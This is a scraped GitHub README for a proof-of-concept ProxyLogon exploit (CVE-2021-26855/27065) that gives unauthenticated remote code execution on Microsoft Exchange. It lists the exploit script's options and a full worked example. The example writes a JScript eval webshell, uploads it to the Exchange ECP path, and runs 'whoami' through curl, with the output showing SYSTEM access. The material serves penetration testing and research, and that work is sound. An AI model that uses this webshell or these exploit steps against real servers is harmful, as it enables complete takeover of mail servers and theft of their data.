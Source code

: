 # proxylogon-exploit

Proof-of-concept exploit for CVE-2021-26855 and CVE-2021-27065. Unauthenticated RCE in Exchange.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/praetorian-inc](https://github.com/praetorian-inc) |
| Url      | [https://github.com/praetorian-inc/proxylogon-exploit](https://github.com/praetorian-inc/proxylogon-exploit)                                               |
| Stars    | 43                                                          |
| License  | Apache License 2.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# proxylogon

Proof-of-concept exploit for CVE-2021-26855 and CVE-2021-27065, which allows for
unauthenticated remote code execution on Microsoft Exchange as described in the
following resources:

* https://www.microsoft.com/security/blog/2021/03/02/hafnium-targeting-exchange-servers
* https://www.volexity.com/blog/2021/03/02/active-exploitation-of-microsoft-exchange-zero-day-vulnerabilities
* https://www.crowdstrike.com/blog/falcon-complete-stops-microsoft-exchange-server-zero-day-exploits

## Usage

Exploitation requires knowledge of the frontend Exchange server URL (e.g.
`https://exchange.example.org`) and an email address for a user on the system.
The admin SID and backend can be leaked from the server.

```
$ python exploit.py -h
usage: exploit.py [-h] [--frontend FRONTEND] [--email EMAIL] [--sid SID]
  [--webshell WEBSHELL] [--path PATH]
  [--backend BACKEND]
  [--proxy PROXY]

proxylogon proof-of-concept

optional arguments:
  -h, --help           show this help message and exit
  --frontend FRONTEND  external url to exchange (e.g. https://exchange.example.org)
  --email EMAIL        valid email on the target machine
  --sid SID            exchange admin sid
  --webshell WEBSHELL  webshell to upload
  --path PATH          desired path to webshell on host
  --backend BACKEND    [optional] backend host (leaked in X-CalculatedBETarget)
  --proxy PROXY        [optional] proxy traffic (e.g. http://127.0.0.1:8080)
```

## Example

```
$ cat <<EOF > webshell.aspx
<script language="JScript" runat="server">
function Page_Load(){
eval(Request["kxpprfgvnosz"],"unsafe");
}
</script>
EOF

$ python exploit.py --frontend https://172.16.59.7 --backend exchange.hafnium.local \
  --email administrator@hafnium.local \
  --webshell webshell.aspx \
  --path 'C:\\Program Files\\Microsoft\\Exchange Server\\V15\\FrontEnd\\HttpProxy\\ecp\\auth\\o.aspx'
Retrieving backend via RPC
Backend: exchange.corp.contoso.com
Identified SID: S-1-5-21-...-500
Admin SID: S-1-5-21-...-500
Authenticating via proxylogon
Looking up OAB virtual directory
OAB virtual directory: OAB (Default Web Site)
Injecting payload into OAB ExternalUrl
Resetting OAB virtual directory
Enjoy your webshell!

$ curl -s -k https://172.16.59.7/ecp/auth/o.aspx \
  -d 'kxpprfgvnosz=Response.Write(
    new ActiveXObject("WScript.Shell")
      .Exec("cmd /c whoami")
      .StdOut
      .ReadAll()
);' | head -n 1
nt authority\system
```



## Get the content

```
git clone https://github.com/praetorian-inc/proxylogon-exploit
cd proxylogon-exploit
```

{% embed url="https://github.com/praetorian-inc/proxylogon-exploit" %}

<figure><img src="https://avatars.githubusercontent.com/u/8173787?v=4" alt=""><figcaption><p>praetorian-inc</p></figcaption></figure>
